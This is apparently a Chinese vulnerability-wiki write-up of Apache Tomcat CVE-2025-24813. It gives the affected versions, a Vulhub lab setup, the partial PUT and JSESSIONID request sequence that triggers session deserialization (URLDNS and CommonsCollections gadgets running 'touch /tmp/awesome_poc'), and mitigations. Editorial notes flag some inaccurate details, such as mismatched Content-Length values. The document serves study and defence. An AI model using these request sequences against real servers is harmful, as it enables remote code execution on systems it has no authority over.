










## 2026-10-03 版本核验

本轮 CNA 记录除 11.x、10.1.x、9.x 外，还明确列出已停止支持的 8.5.0–8.5.100 受影响，版本索引补入该分支。更早 EOL 版本及 10.0.x 在记录中仍为 unknown；不能因没有修复分支条目就认定不受影响。原文的写入、partial PUT、会话持久化和反序列化库等前提继续适用。

# Apache Tomcat 远程代码执行漏洞 CVE-2025-24813

<!-- vulwiki-editorial:start -->
## 校订与适用边界

- 适用前提：非默认DefaultServlet可写、partial PUT启用、PersistentManager/FileStore默认同目录、可用gadget；作者明确额外加入CC3.2.1
- 证据范围：读取/篡改与RCE两组条件分开、URLDNS与执行证据分开，结构较好；实验不是默认安装直接RCE。

### 本次正文校订

- 按实际内容修正 6 处代码围栏语言标记，保留其中方法与请求内容。

### 尚未解决的证据缺口

以下限制仍适用于后文历史材料；相关版本、结果或修复结论不能据此视为已验证：

- 称漏洞原因仅两种错误配置会掩盖真实临时文件命名缺陷，配置是利用前提
- Content-Length1000与Content-Range0–1000对应1001字节不一致，YOUR-PAYLOAD占位需明确按二进制实际长度重算
- CommonsCollectionsK1被成功序列化应为反序列化
- 默认基于内存持久化术语不准确，需区分StandardManager内存会话/停机保存和FileStore按ID加载机制
- 生成payload只有截图缺JDK/工具参数，副作用含会话文件/应用依赖修改应说明

本页为文本校订，未执行代码、PoC 或目标请求；原图仅保留引用，未据此确认复现成功。
<!-- vulwiki-editorial:end -->

## 技术正文与历史材料

## 漏洞描述

Apache Tomcat 是一个开源的 Java Servlet 容器和 Web 服务器，支持运行 Java Servlet、JavaServer Pages (JSP) 和其他基于 Java 的 Web 应用程序，广泛用于开发和部署企业级 Web 应用。

该漏洞源于 Tomcat DefaultServlet 处理 partial PUT 请求（基于 `Content-Range` 头的 HTTP PUT 请求）时的临时文件命名逻辑不安全，导致攻击者可以通过构造特殊的请求路径，访问或写入安全敏感文件。

满足以下条件，攻击者可以访问或修改安全敏感文件：

1. DefaultServlet 启用了写入权限（默认情况下禁用）。
2. 服务器启用了 partial PUT（默认启用）。
3. 该敏感文件存放在允许上传的目录的子路径（攻击者需要能够在该敏感文件目录上级路径使用 partial PUT 上传文件）
4. 攻击者已知目标敏感文件的路径以及文件名。
5. 敏感文件是通过 partial PUT 上传的。

满足以下条件，攻击者可以远程代码执行（RCE）：

1. DefaultServlet 启用了写入权限（默认情况下禁用）。
2. 服务器启用了 partial PUT（默认启用）。
3. Tomcat 使用了基于文件的 Session 持久化机制（非默认配置，默认为基于内存持久化），且存储位置为默认路径。
4. 应用程序包含可利用的反序列化漏洞库（如 Commons-Collections 3.x）。

参考链接：

- https://lists.apache.org/thread/j5fkjv2k477os90nczf2v9l61fb0kkgq
- https://github.com/charis3306/CVE-2025-24813
- https://forum.butian.net/article/674

## 漏洞影响

```
11.0.0-M1 ≤ Apache Tomcat ≤ 11.0.2
10.1.0-M1 ≤ Apache Tomcat ≤ 10.1.34
9.0.0.M1 ≤ Apache Tomcat ≤ 9.0.98
```

## 环境搭建

Vulhub 执行以下命令启动存在漏洞的 Tomcat 9.0.97 服务器：

```shell
docker compose build
docker compose up -d
```

服务启动后，访问 `http://your-ip:8080` 即可看到 Tomcat 的示例页面。



## 漏洞复现

`Content-Range` 在 Tomcat 的 HTTP PUT 请求中主要用于实现大文件的分块传输。在文件上传未完成的情况下，内容会被临时存储在 Tomcat 的工作目录：`$CATALINA_BASE/work/Catalina/localhost/ROOT`。

当发送不完全的 PUT 请求（使用 `Content-Range` 头）时，Tomcat 会将文件路径中的分隔符 (`/`) 转换为句点 (`.`)，并将文件临时存储在会话存储目录中，例如：访问 `/xxxxx/session` 会被解析为 `.xxxxx.session`。

该漏洞存在的原因是 Tomcat 中两个关键的错误配置。首先，在 `conf/web.xml` 中，DefaultServlet 配置了 `readonly=false`，允许文件上传：

```xml
<servlet>
    <servlet-name>default</servlet-name>
    <servlet-class>org.apache.catalina.servlets.DefaultServlet</servlet-class>
    <init-param>
        <param-name>debug</param-name>
        <param-value>0</param-value>
    </init-param>
    <init-param>
        <param-name>listings</param-name>
        <param-value>false</param-value>
    </init-param>
    <init-param>
        <param-name>readonly</param-name>
        <param-value>false</param-value>
    </init-param>
    <load-on-startup>1</load-on-startup>
</servlet>
```

其次，在 `conf/context.xml` 中，Tomcat 配置了基于文件的 Session 持久化：

```xml
<Manager className="org.apache.catalina.session.PersistentManager">
    <Store className="org.apache.catalina.session.FileStore"/>
</Manager>
```

这两种配置都使用相同的默认存储路径：`$CATALINA_BASE/work/Catalina/localhost/ROOT`。

### URLDNS

我们先用 URLDNS gadget 进行测试。发送带有 Content-Range 头的部分 PUT 请求，在临时目录 `$CATALINA_BASE/work/Catalina/localhost/ROOT` 中写入名为 `.deserialize.session` 的文件：

```http
PUT /deserialize/session HTTP/1.1
Host: your-ip:8080
Accept-Language: en,zh-CN;q=0.9,zh;q=0.8
Accept: */*
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/132.0.6788.76 Safari/537.36
Accept-Encoding: gzip, deflate
Content-Type: application/data
Content-Length: 1000
Content-Range: bytes 0-1000/1200

YOUR-PAYLOAD-HERE
```



可以看到，文件 `.deserialize.session` 已经被写入：



然后，发送另一个带有 JSESSIONID cookie 的请求，触发文件 `.deserialize.session` 的反序列化：

```http
GET / HTTP/1.1
Host: your-ip:8080
Accept-Language: en,zh-CN;q=0.9,zh;q=0.8
Accept: */*
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/132.0.6788.76 Safari/537.36
Accept-Encoding: gzip, deflate
Cookie: JSESSIONID=.deserialize 
```



URLDNS gadget 被成功反序列化，并发送了 DNS 请求：



### CommonsCollectionsK1

回顾一下远程代码执行（RCE）的利用过程：

1. DefaultServlet 配置了 `readonly=false`，允许文件上传。
2. 服务器默认启用了 partial PUT。
3. Tomcat 配置了基于文件的 Session 持久化，且存储位置为默认路径 `$CATALINA_BASE/work/Catalina/localhost/ROOT`。
4. 应用程序存在反序列化利用链，在临时目录中写入包含恶意反序列化数据的文件。
5. 设置 `JSESSIONID=.xxxxx` 触发漏洞。

我们修改 docker-compose.yml，引入 `commons-collections-3.2.1`：

```
services:
 tomcat:
   build: .
   volumes:
     - ./commons-collections-3.2.1.jar:/usr/local/tomcat/webapps/ROOT/WEB-INF/lib/commons-collections-3.2.1.jar
   ports:
    - "8080:8080"
```

重新启动服务：

```shell
docker compose up --force-recreate
```

用 [java-chains](https://github.com/vulhub/java-chains) 生成 payload：



发送带有 Content-Range 头的部分 PUT 请求，在临时目录 `$CATALINA_BASE/work/Catalina/localhost/ROOT` 中写入名为 `.poc.session` 的文件：

```http
PUT /poc/session HTTP/1.1
Host: your-ip:8080
Accept-Language: en,zh-CN;q=0.9,zh;q=0.8
Accept: */*
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/132.0.6788.76 Safari/537.36
Accept-Encoding: gzip, deflate
Content-Type: application/data
Content-Length: 1000
Content-Range: bytes 0-1000/1200

YOUR-PAYLOAD-HERE
```



可以看到，文件 `.poc.session` 已经被写入：



```http
GET / HTTP/1.1
Host: your-ip:8080
Accept-Language: en,zh-CN;q=0.9,zh;q=0.8
Accept: */*
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/132.0.6788.76 Safari/537.36
Accept-Encoding: gzip, deflate
Cookie: JSESSIONID=.poc
```



CommonsCollectionsK1 gadget 被成功序列化，执行了 `touch /tmp/awesome_poc` 命令：



## 漏洞修复

### 临时缓解方案

如果暂时无法升级，可以采取以下临时措施降低风险：

- 禁止 partial PUT：在 conf/web.xml 中修改 allowPartialPut 参数为 false，并 重启 Tomcat 以使配置生效。
- 严格控制 DefaultServlet 写入权限：确保 readonly=true，禁用所有未经授权的 PUT/DELETE 请求，仅允许可信来源访问受限目录。

### 通用修补建议

- 升级至 [安全版本](https://lists.apache.org/thread/j5fkjv2k477os90nczf2v9l61fb0kkgq) Apache Tomcat ≥ 11.0.3、Apache Tomcat ≥10.1.35、 Apache Tomcat ≥ 9.0.99。


---

> 来源：Threekiii/Awesome-POC
